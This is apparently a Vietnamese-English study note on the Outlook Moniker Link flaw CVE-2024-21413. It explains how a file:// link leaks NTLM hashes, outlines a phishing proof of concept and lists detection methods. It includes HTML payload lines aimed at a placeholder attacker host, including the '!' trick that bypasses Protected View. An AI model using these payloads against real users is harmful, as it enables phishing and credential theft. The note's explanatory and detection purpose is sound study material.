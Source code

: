 # 1. Introduction
- Khi attacker gửi email chứa hyperlink as a malicious Moniker Link cho nạn nhân, nạn nhân click vào vào hyperlink, Outlook gửi user's NTLM credential cho attacker.

# 2. Moniker Link (CVE-2024-21413)
## 2.1 Moniker Link là gì?
- Moniker link là 1 cách đặc biệt để gọi ứng dụng hoặc tài nguyên trên Windows. Bình thường, các đường dẫn như `http://` hoặc `https://` sẽ mở một trang web, nhưng `file://` có thể được sử dụng để mở một tệp hoặc một thư mục trên máy tính hoặc mạng nội bộ.
- Ví dụ: `<a href="file://ATTACKER_IP/test">Click me</a>
`
- Khi user nhấp vào, Outlook sẽ cố gắng truy cập `test` trên **máy chủ của attacker** `ATTACKER_IP`. Nếu máy nạn nhân đang dùng **SMB protocol** nó sẽ gửi thông tin xác thực **netNTLMv2 hash** đến attacker.

## 2.2 Protected View
- Trên Outlook có 1 cơ chế là **Protected View** hiển thị cảnh báo hoặc chặn hoàn toàn nhằm hạn chế mở tệp hoặc macilious link.

## 2.3 Cách bypass Protected View
- Thêm `!` vào đường dẫn để bypass: ` <a href="file://ATTACKER_IP/test!exploit">Click me</a>`.

- **Remote Code Execution (RCE)** vẫn có khả năng xảy ra vì Moniker Links dùng Component Object Model (COM) on Windows.

# 3. Exploitation
The PoC:

- Takes an attacker & victim email. Normally, you would need to use your own SMTP server.
- Requires the password to authenticate.
- Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink
- Then, fill in the "subject", "from" and "to" fields in the email
- Finally, it sends the email to the mail server

# 4. Detection
- **YARA**: Giúp phát hiện email có chứa `file:\\` trong Moniker Link.
- **Wireshark**: SMB request từ victim tới client có thể xem được trong packet capture và netNTLMv2 hash.